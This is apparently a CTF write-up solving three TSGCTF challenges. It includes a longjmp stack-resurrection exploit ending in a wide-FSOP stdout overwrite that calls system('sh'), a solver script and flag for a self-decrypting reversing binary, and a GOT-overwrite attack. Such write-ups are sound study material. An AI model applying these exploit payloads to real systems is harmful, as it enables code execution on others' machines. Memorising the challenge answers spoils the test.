



import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## pwn - TSG LAND (46 solves)

we get a binary named chall :
```shell
tlsbollei@tlsbollei mnt/.../tsg-land file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e827c4b6e83ca9168be9be90f2a3d2d62dc62b49, not stripped
tlsbollei@tlsbollei mnt/.../tsg-land checksec chall
[*] '/mnt/c/Users/tlsbo/Downloads/tsg-land/tsg-land/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
tlsbollei@tlsbollei mnt/.../tsg-land

```
source code is as follows : 

```c title="chall.c"
#include <setjmp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

jmp_buf env[5];
int launched[5];

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
}

int read_int(char *prompt) {
    int x;
    printf("%s > ", prompt);
    scanf("%d", &x);
    for (;getchar() != '\n';);
    return x;
}

void notepad() {
    void *_[99]; // padding
    char *buf = malloc(0x1000);
    if (buf == NULL) {
        return;
    }
    if (setjmp(env[1]) != 0) {
        printf("saved content: %s\n", buf);
    }
    for (;;) {
        int q = read_int("1: edit, 0: save and quit");
        if (q == 0) {
            longjmp(env[0], 1);
        } else {
            printf("enter the content > ");
            fgets(buf, 0x1000, stdin);
        }
    }
}

void pwquiz() {
    void *_[100]; // padding
    char *hints[3] = {
        "Hint 1: an English word",
        "Hint 2: length is 8",
        "Hint 3: the most used password in the world"
    };

    setjmp(env[2]);

    for (;;) {
        int q = read_int("1~3: hint, 4: answer, 0: quit");
        if (q == 0) {
            longjmp(env[0], 1);
        } else if (1 <= q && q <= 3) {
            printf("%s\n", hints[q-1]);
        } else if (q == 4) {
            char buf[16];
            printf("answer > ");
            scanf("%15s", buf);
            if (strcmp("password", buf) == 0) {
                puts("Congraturations!!!");
                longjmp(env[0], 123456);
            } else {
                puts("...");
            }
        }
    }
}

struct board {
    int board[16];
    int sx;
    int sy;
};

void move(struct board *b, char m) {
    if (b->sx < 0 || 3 < b->sx || b->sy < 0 || 3 < b->sy) {
        return;
    }
    switch (m) { // left, down, up, right
        case 'a': // left
            if (b->sx < 3) {
                b->board[b->sy*4 + b->sx] = b->board[b->sy*4 + b->sx + 1];
                b->sx++;
            }
            break;
        case's': // down
            if (b->sy > 0) {
                b->board[b->sy*4 + b->sx] = b->board[(b->sy-1)*4 + b->sx];
                b->sy--;
            }
            break;
        case 'w': // up
            if (b->sy < 3) {
                b->board[b->sy*4 + b->sx] = b->board[(b->sy+1)*4 + b->sx];
                b->sy++;
            }
            break;
        case 'd': // right
            if (b->sx > 0) {
                b->board[b->sy*4 + b->sx] = b->board[b->sy*4 + b->sx - 1];
                b->sx--;
            }
            break;
        default:
            break;
    }
}

void print_board(struct board *b) {
    for (int i = 0; i < 4; i++) {
        for (int j = 0; j < 4; j++) {
            if (i == b->sy && j == b->sx) {
                printf("[] ");
            } else {
                printf("%02d ", b->board[i*4+j]);
            }
        }
        puts("");
    }
}

int judge(struct board *b) {
    for (int i = 0; i < 15; i++) {
        if (b->board[i] != i) {
            return 0;
        }
    }
    return 1;
}

void slide_puzzle() {
    srand(time(NULL));
    void *_[100]; // padding
    struct board b = {{}, 3, 3};
    for (int i = 0; i < 16; i++) {
        b.board[i] = i;
    }

    // randomize board
    for (int i = 0; i < 100; i++) {
         move(&b, "aswd"[rand()%4]);
    }

    // move space to bottom-right
    move(&b, 'a');
    move(&b, 'a');
    move(&b, 'a');
    move(&b, 'w');
    move(&b, 'w');
    move(&b, 'w');

    setjmp(env[3]);
    
    for (;;) {
        print_board(&b);
        printf("a: left, s: down, w: up, d: right, q: save and quit > ");
        char c = getchar();
        if (c == 'q') {
            longjmp(env[0], 1);
        } else if (c != '\n') {
            move(&b, c);
            if (judge(&b)) {
                print_board(&b);
                puts("Congraturations!");
                launched[3] = 0;
                longjmp(env[0], 1);
            }
        }
    }
}

void int_float_translater() {
    void *_[94]; // padding
    unsigned long num;
    char *__ = alloca(100); // padding 2
    
    setjmp(env[4]);

    for (;;) {
        int q = read_int("1: uint64 to float64, 2: float64 to uint64, 0: quit");
        switch (q) {
            case 1:
                printf("num(uint64) > ");
                scanf("%ld", &num);
                for (;getchar() != '\n';);
                printf("%1$ld = %2$f = %2$e\n", num, *(double *)&num);
                break;
            case 2:
                printf("num(float64) > ");
                scanf("%lf", (double *)&num);
                for (;getchar() != '\n';);
                printf("%1$f = %2$ld = 0x%2$lx\n", *(double *)&num, num);
                break;
            case 0:
                longjmp(env[0], 1);
            default:
                break;
        }
    }
}

void *apps[5] = {NULL, notepad, pwquiz, slide_puzzle, int_float_translater};

void print_desktop() {
    puts("...");
    puts("1: notepad.exe");
    puts("2: password ate quiz ~returns~");
    puts("3: 4x4 slide puzzle");
    puts("4: int float translater");
    puts("0: exit TSG LAND");
}

int main() {
    init();
    puts("Welcome to TSG LAND!!!");
    int res = setjmp(env[0]);
    if (res == 123456) {
        puts("You are pw-ate-quiz m@ster!");
    } else if (res != 0) {
        puts("Welcome back!");
    }

    for (;;) {
        print_desktop();
        int q = read_int("May I help you?");
        if (q <= -1 || 5 <= q) {
            puts("invalid command");
        } else if (q == 0) {
            puts("bye");
            exit(0);
        } else {
            if (launched[q]) {
                longjmp(env[q], 1);
            } else {
                launched[q] = 1;
                ((void(*)())apps[q])();
            }
        }
    }
}
```

### The bug we hold onto

The bug is longjmp into a dead stack frame. `main()` saves `env[0]` with `_setjmp`, then later resumes apps by `longjmp(env[q], 1)` if they were launched before.

```asm
1cc7: lea env(%rip),%rax        
1cd1: call 1080 <_setjmp@plt>   # save env[0] here
1d7c: test %eax,%eax
1d7e: []                       # if launched[q] != 0
1da7: mov $0x1,%esi
1dac: mov %rax,%rdi             # rdi = &env[q]
1daf: call 10e0 <longjmp@plt>    # jump back into app
```

These apps don't return normally, they quit using ```longjmp(env[0], 1)```. The lack of a traditional return means that their stack frames are no longer a valid call chain, despite this later on ```main``` jumps back inside of them, so this is a stack ressurection vulnerability.

### Defeating PIE using print leaks

So, what can we use our stack ressurection vulnerability for? Simply said, because different functions overlap the same dead stack frame, we can corrupt local variables. You can immediately notice what local variable we can corrupt to get an arbitrary read plus write, but I'll get to that later. Firstly, we need to defeat PIE by getting a leak.

We notice a key observation and that is that ```pwquiz``` stores rodata pointers on its stack

```asm
13b1: lea 0x2053(%rip),%rax   # hint 1
13b8: mov %rax,-0x340(%rbp)

13bf: lea 0x206b(%rip),%rax   # hint 2
13c6: mov %rax,-0x338(%rbp)

13cd: lea 0x2080(%rip),%rax   # hint 3  
13d4: mov %rax,-0x330(%rbp)
```

dumping .rodata really confirms our finding :

```
2080: "Hint 3: the most used password in the world\0"
```

Second key observation is that slide_puzzle's board starts at the exact same stack offset, which beautifully complements our initial hypothesis.
In ```slide_puzzle```, we can see that the board struct lives at ```rbp-0x330```

```asm
18f6: lea -0x330(%rbp),%rax   
19a5: mov %rax,%rdi
19a8: call 1713 <print_board> # prints b.board[] as ints
```

we can finalize:

pwquiz local ```-0x330(%rbp)``` contains the 64-bit pointer ```PIE_base + 0x2080```
slide_puzzle local ```b.board[0]``` is the first 4 bytes at ```rbp-0x330```
slide_puzzle ```b.board[1]``` is the next 4 bytes at ```rbp-0x32c```

and so because of our stack ressurection bug, after running ```pwquiz()``` and then resuming ```slide_puzzle()``` via ```longjmp(env[3],1)```, the memory at ```rbp-0x330``` is no longer the puzzle tiles, it is whatever pwquiz left there.

### What to do with this information?

Because ```print_board``` prints each element as an ```int```

```
1778: mov (%rax,%rdx,4),%eax   # load b->board[idx] 
178c: call 1050 <printf@plt>   # "%02d"
```

We can exploit this as follows :

```python
leak = (board[0][1] << 32) | board[0][0]
baseaddr = leak - 0x2080
```

this works because ```leak == PIE_base + 0x2080``` (the address of our third hint), and you subtract the known rodata offset 0x2080 to get the PIE base.
that is also why the constant is exactly 0x2080, it is not random, it is the rodata symbol that pwquiz leaves behind at the exact overlapping stack slot.

### translator + puzzle moves becomes our write primitive

we can use the 4x4 puzzle as a 32bit shuffler. this is because the ```move()``` function  literally copies ints around and does:

```
...load neighbor int..
15ad: movslq %esi,%rdx
15b0: mov %ecx,(%rax,%rdx,4)   # neighbor write to blank slot
```

so each move does not "swap tiles", instead, it copies an ```int``` from a neighbor into the blank position and updates sx/sy. this means we can route specific 32 bit values through the grid with a known path, but still not yet.

#### how translator steps in our equation

translator scans into a local 64-bit num at ```rbp-0x310```

```
1b64: lea -0x310(%rbp),%rax
1b78: call __isoc99_scanf@plt   # scanf("%ld", &num) from oru source
```

translator lets you place 8 controlled bytes onto its stack frame. with the stack resurrection bug, those bytes land inside other app locals.
here is a holy shit moment :

slide_puzzle board base: ```rbp-0x330```, and notepad pointer buf lives at ```rbp-0x328```. that means the notepad pointer overlaps puzzle elements board[2] and board[3]. and we can see in the source..  ```printf("%s", buf)```, ```fgets(buf, 0x1000, stdin)```. this gives us an arbitrary read AND write!

### notepad magic

confirming our logic above:

```asm
12d2: call malloc@plt
12d7: mov %rax,-0x328(%rbp)     # save buf pointer
```

and when we resume notepad using setjmp != 0, we do ```printf("%s", buf)```

```asm
12f6: call _setjmp@plt          # env[1] 
12fb: test %eax,%eax
12fd: je 131d
12ff: mov -0x328(%rbp),%rax     # load buf pointer
1309: lea 0x2011(%rip),%rdi     # "saved content: %s\n"
1318: call printf@plt
```

so if we corrupt this pointer at ```rbp-0x328```, we can get an arbitrary read via ```%s```
and our foreshadow arbitrary write looks like this:

```asm
136a: mov -0x328(%rbp),%rax     # buf pointer
1371: mov $0x1000,%esi
1379: call fgets@plt            # writes our bytes to *buf, nice
```

<Callout title="the game of the exploit" variant="important">
the exploits entire game is: use translator + puzzle moves to rewrite notepad saved buf pointer, giving us AAR and AAW.
</Callout>

### leaking the libc 

we do :

```
translator(chall.got.puts & 0xffffffff)
puzzle('<>')
io.sendlineafter(b'? > ', b'1')
io.recvuntil(b'saved content: ')
libc.address = u64(io.recvline().strip().ljust(8, b'\x00')) - libc.sym.puts
```

we write only the low 32 bits of the desired pointer, which is the puts@GOT address. the high bits of the notepad buf pointer were originally a heap pointer like 0x00005555........ and PIE mappings are also typically 0x00005555........ locally/remote. so changing only the low dword often retargets the pointer from heap to PIE region. thats why we use & 0xffffffff. 

notepad resumes = printf("%s", buf) reads bytes at puts@GOT = GOT holds the resolved libc address of puts = subtract libc.sym.puts and we get libc base.

### FSOP

now we want notepad, so the fgets, to write into libc stdout FILE object, which is at 0x7f........, not 0x00005555........, so we overwrite both halves

```
translator((_IO_2_1_stdout_ >> 32) & 0xffffffff) 
translator(_IO_2_1_stdout_ & 0xffffffff)         
```

after these two shuffles, notepad saved pointer becomes:

```
buf == libc.sym._IO_2_1_stdout_
```

so the fgets of notepad becomes a write directly into libc global stdout struct, which is exactly FSOP.

### brain freeze

Right. FSOP. But... wasnt that patched in like glibc ≥2.24/2.27? Checking the version of the handout libc shows:

```shell
tlsbollei@tlsbollei mnt/.../tsg-land strings libc.so.6 | grep "GNU C Library"
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.11) stable release version 2.35.
tlsbollei@tlsbollei mnt/.../tsg-land
```

2.35. Not good. 
After 25 minutes of staring into a wall, I realized that we can just use ideas that remain valid.
As per vtable bypass articles,

<Callout title="FILE structure exploitation" variant="important">
You can not just point a FILEs vtable to an arbitrary fake jump table anymore, because glibc validates the vtable pointer is inside the read-only __libc_IO_vtables region (or it sends us to hell).
</Callout>

our exploit still works on glibc 2.35 because we do not rely on an arbitrary vtable anywhere, we can use two ideas that remain valid:

1. Pick a vtable that is already inside __libc_IO_vtables (so the check passes)
2. Pivot into  wide-IO and hijack _wide_vtable, which historically is not validated by the same IO_validate_vtable() fast-path (House of Paper, wide FSOP style)

### confirming write-what-where into stdout

notepad local pointer is stored at rbp-0x328 and used as the destination for fgets:

```
12d2: call   malloc@plt
12d7: mov    %rax,-0x328(%rbp)      ; save buf pointer

12ff: mov    -0x328(%rbp),%rax
1318: call   printf@plt              ; printf("saved content: %s\n", buf)

136a: mov    -0x328(%rbp),%rax
1379: call   fgets@plt               ; fgets(buf, 0x1000, stdin)
```

once the exploit corrupts that saved buf pointer to equal libc:_IO_2_1_stdout_, the line:

```python
io.sendlineafter(b' > ', fs)
```

becomes ```fgets(stdout, aa)```, overwriting the real ```stdout FILE``` object in libc.
additionally, after we return to the menu, the program immediately calls ```puts``` a bunch of times in ```print_desktop```

```asm
1c53: call puts@plt
1c62: call puts@plt
```

so the program naturally triggers stdio after we corrupt stdout.

### exploiting

final payload is > corrupt ```stdout``` so libc calls ```system```.

```
shellpop = flat({
  0x00: b' sh\0...',
  0x88: p64(libc.address + 0x21ca60),         #  lock
  0xA0: p64(stdout+0xe0),                      # _wide_data
  0xC0: p32(-1),                               # _mode = -1 (wide)
  0xD8: _IO_wfile_jumps - 0x38 + 0x18,         # vtable (legit libc table)
  0xE0+0x68: p64(system),                      #  target
})
```
step by step:

```python
0xA0: p64(stdout + 0xe0)
```

this matches ```_wide_data``` being a field in ```_IO_FILE``` (glibc struct layout) and is the classic setup for wide FSOP.

```python
0xC0: p32(-1)    # _mode = -1
```
setting ```_mode``` negative pushes glibc down wide-character code paths (where _wide_data is used heavily).

```python
0xD8: _IO_wfile_jumps - 0x38 + 0x18   # _IO_wfile_jumps - 0x20
```

this is our patched FSOP compatibility part, ```_IO_wfile_jumps``` is a real libc jump living in ```__libc_IO_vtables``` region, so we pass the vtable check, and the small subtraction is a common trick because the validator checks in range, and not exact symbol start.

```python
0x88: p64(libc.address + 0x21ca60)
```

glibc may lock the stream, if _lock is garbage, we crash. so we give it a pointer to a valid lock object in libc.

#### wide-vtable pivot and why the patch does not save it

```
w_offset = 0xE0
w_offset+0x68: p64(system)
w_offset+0xE0: p64(stdout + 0xe0)
```

we place a wide_data object at stdout+0xe0 and at the end of that object, we set _wide_vtable = stdout+0xe0, so wide_vtable points into our own controlled memory. inside this fake vtable, at offset 0x68, we put the function pointer system.
when libc takes a wide-IO path and does something like "call the wide overflow/put function via _wide_vtable", it will fetch the pointer we planted and call it, which in our case, is system.

#### why system("sh") works even though the signature is bad

in these wide-vtable FSOP chains, the call site typically passes the ```FILE*``` as the first argument (in rdi on amd64). If we replace that target with system, then ```system(rdi)``` treats that ```FILE*``` pointer as a ```char*```.
so we put the cmd string at the start of the FILE object:

```python
0x00: b' sh\0...',
```

when our corrupted code path calls our planted system, it becomes

```
system((char*)stdout)
```

and since ```stdout``` begins with ```"sh\0"```, we get a shell



## rev - medicine (96 solves)

```shell
┌──(tlsbollei㉿tlsbollei)-[/mnt/c/Users/tlsbo/Downloads/medicine/medicine]
└─$ file medicine
medicine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c540100314c537435ffa30d942a013f0f3bbde6a, for GNU/Linux 4.4.0, stripped

┌──(tlsbollei㉿tlsbollei)-[/mnt/c/Users/tlsbo/Downloads/medicine/medicine]
└─$ ./medicine
flag? flag{bbb}
Wrong ;(
```

input gate : 

```c
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  char v3[40]; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-10h]

  v4 = __readfsqword(0x28u);
  printf("flag? ");
  if ( (unsigned int)__isoc23_scanf("%32s", v3) == 1 && strlen(v3) == 32 )
    BUG();
  sub_1200();
}
```

```__isoc23_scanf("%32s", v3)``` and ```strlen(v3) == 32``` which then branches into ```BUG()``` which is our protected/decrypted path. Failure path is ```sub_1200()```, which looks as follows

```c
void __noreturn sub_1200()
{
  _QWORD buf[3]; // [rsp+Eh] [rbp-1Ah] BYREF

  *(_QWORD *)((char *)&buf[1] + 2) = __readfsqword(0x28u);
  strcpy((char *)buf, "Wrong ;(\n");
  write(1, buf, 9u);
  _exit(1);
}
```

this fixed string and the function fixed address (.text+0x1200) are crucial for the offline recovery.

### initialization of SIGILL handler

```c
unsigned __int64 sub_132F()
{
  __int64 v0; // rax
  struct sigaction v2; // [rsp+0h] [rbp-A8h] BYREF
  unsigned __int64 v3; // [rsp+98h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  memset(&v2.sa_mask, 0, 0x90u);
  v2.sa_handler = (__sighandler_t)sub_12A4;
  v2.sa_flags = 4;
  sigemptyset(&v2.sa_mask);
  if ( sigaction(4, &v2, 0) )
    __assert_fail("sigaction(SIGILL, &action, NULL) == 0", "chal.c", 0x43u, "init");
  v0 = sysconf(30);
  if ( mprotect(
         (void *)((unsigned __int64)&loc_1500 & -v0),
         (-v0 & ((unsigned __int64)&loc_1500 + v0 + 1663)) - ((unsigned __int64)&loc_1500 & -v0),
         7) )
  {
    __assert_fail(
      "mprotect((void*)start, end - start, PROT_READ | PROT_WRITE | PROT_EXEC) == 0",
      "chal.c",
      0x49u,
      "init");
  }
  return v3 - __readfsqword(0x28u);
}
```

SIGILL handler is installed via ```v2.sa_handler = (__sighandler_t)sub_12A4;``` and ```sigaction(4, &v2, 0))```, and the code page containing ```loc_1500``` is made RWX with ```mprotect``` with flag 7, with the protected tail size being bounded explicitly by 1663. This is our self modifying region.

### ROT13 routine

in ```sub_126A``` we cab see the raw decomp of the rot13 routine:

```c
__int64 __fastcall sub_126A(_BYTE *a1)
{
  __int64 result; // rax

  for ( result = (unsigned __int8)*a1; (_BYTE)result; result = (unsigned __int8)*a1 )
  {
    if ( (unsigned __int8)((result & 0xDF) - 65) <= 0x19u )
    {
      if ( (unsigned __int8)(result - 78) <= 0xCu || (char)result > 109 )
        *a1 = result - 13;
      else
        *a1 = result + 13;
    }
    ++a1;
  }
  return result;
}
```

important is the alpha range check ```((result & 0xDF) - 65) <= 0x19u``` and the ```*a1 = result - 13; else; *a1 = result + 13;``` transform on the ```a1``` pointer

### SIGILL handler and decrypting per fault

```c
__int16 __fastcall sub_12A4(__int64 a1, __int64 a2, _QWORD *a3)
{
  _WORD *v3; // rbx
  char *v5; // r12
  _WORD *v6; // rdx
  char *v7; // rcx
  __int16 result; // ax

  v3 = (_WORD *)a3[21];
  if ( ((unsigned __int8)v3 & 0x3F) != 0 || (_WORD *)qword_40B0 == v3 )
    sub_1200();
  v5 = (char *)a3[20];
  qword_40B0 = a3[21];
  sub_126A(v5);
  v6 = v3;
  v7 = v5;
  do
  {
    result = 3525 * *v7 + 15842;
    *v6++ ^= result;
    ++v7;
  }
  while ( v7 != v5 + 32 );
  ++a3[19];
  return result;
}
```
this confirms a variety of my troubles == ```((unsigned __int8)v3 & 0x3F) != 0``` enforces 64 byte alignment, ```qword_40B0 == v3``` prevents repeating the same block, ```sub_126A(v5);``` runs on every SIGILL to ROT13 toggles each time, and the loop runs 32 iterations, with each iteration XORing one ```_WORD``` == ```32 x 2 bytes == 64 bytes decrypted```
the mask function is ```mask16 = (3525 * keyByte + 15842) mod 2^16```

### TL;DR in case of confusion

this binary implements a "decrypt-on-fault" scheme that uses CPU faults to progressively decrypt its own code. the program reads exactly 32 bytes from the user (the "flag"). If it's not exactly 32 bytes, it exits immediately with "Wrong ;(\n". during initialization, the binary installs a custom signal handler for SIGILL (Signal 4, illegal instruction). it also makes a region of code RWX using ```mprotect```. a 1663-byte encrypted tail sits in the ```.text``` section starting at address ```loc_1500```, filled with invalid instructions ```(UD2 = 0F 0B)```. as the program continues runtime execution, it executes an invalid instruction ```(SIGILL)``` which forces the signal handler dispatcher to decrypt exactly 64 bytes of ciphertext code in place using the user key, which is our 32 byte flag input, and execution resumes from our newly decrypted code. given we provide the binary with the correct flag, this process is repeated until we successfuly decrypt all of the invalid instructions into valid ones, and we reach the point in the binary where our flag is confirmed to be correct.

### offline recovery and how to solve?

```call sub_1200``` becomes a perfect proxy for us, and that is because a ```call rel32``` instruction is encoded as ```E8 plus 4 byte little endian displacement```, where ```displacement = target - (callsite + 5)```. in our binary, ```sub_1200``` is at ```.text+0x1200```. therefore, for any candidate callsite address ```p```, the plaintext bytes are fully determined. this is because encryption is XOR on 16 bit words :

```cipherWord = plainWord XOR mask16``` ==> ```mask16 = cipherWord XOR plainWord```

and ```mask16``` must equal ```(3525*keyByte + 15842) & 0xFFF``` for some byte.

### inverting mask16 to keyByte

we precompute a reverse table for all 256 bytes:

```python
mask16(b) = (3525*b + 15842) & 0xFFFF
rev[mask16(b)] = b
```

from the handler,

```c
sub_126A(v5);
```

since ROT13 is an involution (a function, transformation, or operator that is equal to its inverse, i.e. which gives the identity when applied to itself.), the key alternates per decrypted block:

block0 uses ```rot13(flag)```
block1 uses ```flag```
block2 uses ```rot13(flag)```

therefore, once we recover the used byte for an even block, we ROT13 it back to get the real flag byte

### dumping the encrypted tail

because of ```LOAD``` mapping, (Offset=VirtAddr for ```.text``` segment), the encrypted page starts at ```loc_1500```, which is file offset 0x1500. The RWX page is ```0x100..0x1FFF```, and the protected tail spans roughly ```0x1500..0x1500+1663```.

```shell
dd if=./medicine of=tailpage.bin bs=1 skip=$((0x1500)) count=$((0x2000-0x1500)) status=none
```

and here we have our solve

```python
#!/usr/bin/env python3
from pathlib import Path
from collections import Counter

A = 3525
B = 15842

data = Path("medicine").read_bytes()

mask_to_key = {}
for key_byte in range(256):
    mask = (A * key_byte + B) & 0xFFFF
    mask_to_key[mask] = key_byte

def rot13(ch):
    if 65 <= ch <= 90:
        ch = ((ch - 65 + 13) % 26) + 65
    elif 97 <= ch <= 122:
        ch = ((ch - 97 + 13) % 26) + 97
    return ch

votes = [Counter() for _ in range(32)]

for callsite in range(0x1500, 0x2000 - 5):
    disp = (0x1200 - (callsite + 5)) & 0xFFFFFFFF
    call_plain = bytes([0xE8]) + disp.to_bytes(4, 'little')
    
    block_base = callsite & ~0x3F
    block_idx = (block_base - 0x1500) // 64
    is_even_block = (block_idx % 2 == 0)
    
    recovered = {}
    for word_idx in range(32):
        word_addr = block_base + 2 * word_idx
        
        if word_addr >= callsite and word_addr + 1 < callsite + 5:
            offset_in_call = word_addr - callsite
            
            b0 = call_plain[offset_in_call]
            b1 = call_plain[offset_in_call + 1]
            plain_word = b0 | (b1 << 8)
            
            cipher_word = int.from_bytes(data[word_addr:word_addr+2], 'little')
            
            mask = cipher_word ^ plain_word
            
            if mask in mask_to_key:
                key_byte = mask_to_key[mask]
                
                if is_even_block:
                    flag_byte = rot13(key_byte)
                else:
                    flag_byte = key_byte
                
                if 32 <= flag_byte <= 126:
                    recovered[word_idx] = flag_byte
    
    if recovered:
        for idx, val in recovered.items():
            votes[idx][val] += len(recovered)

result = bytearray(32)
result[0:5] = b"TSGCT"  

for i in range(5, 32):
    if votes[i]:
        result[i] = votes[i].most_common(1)[0][0]
    else:
        result[i] = ord('?')

print(result.decode())
```

```TSGCTF{51gn4l_h4ndl3r_r0t13_x0r}```

## pwn - global writer (245 solves)

```shell
tlsbollei@tlsbollei mnt/.../global_writer file chal
chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f5fdd19da83b1bc2395b87e2ccd73389b1cad9da, for GNU/Linux 3.2.0, not stripped
tlsbollei@tlsbollei mnt/.../global_writer checksec chal
[*] '/mnt/c/Users/tlsbo/Downloads/global_writer/global_writer/chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

immediately notice the bug - 

```c
void edit(void)

{
  long lVar1;
  int iVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  while( true ) {
    printf("index? > ");
    iVar2 = __isoc99_scanf(&DAT_00402032,&idx);
    if (iVar2 != 1) {
      handle_error();
    }
    if (idx == -1) break;
    printf("value? > ");
    iVar2 = __isoc99_scanf(&DAT_00402032,&values + idx);
    if (iVar2 != 1) {
      handle_error();
    }
  }
  puts(msg);
  printf("Array: ");
  for (i = 0; i < 0x10; i = i + 1) {
    printf("%d ",(ulong)(uint)(&values)[i]);
  }
  putchar(10);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

there is no bounds check on ```idx``` in ```values[idx]``` write. only checks for ```idx == -1``` to exit loop, which becomes our exploit trigger. from this, we can have an arbitrary write relative to values base, and given index can be negative or large, allowing for writes before and after the values array.



now we have the addresses of the two variables ```msg``` and ```values```. we see the program calling ```puts(msg);```, and as we have a constraint write-what-where primitive we can overwrite the GOT entry of ```puts@GOT``` to point to the stub ```system@plt```, and we can also overwrite the ```msg``` variable, turning ```puts(msg)``` into ```system("sh")```.

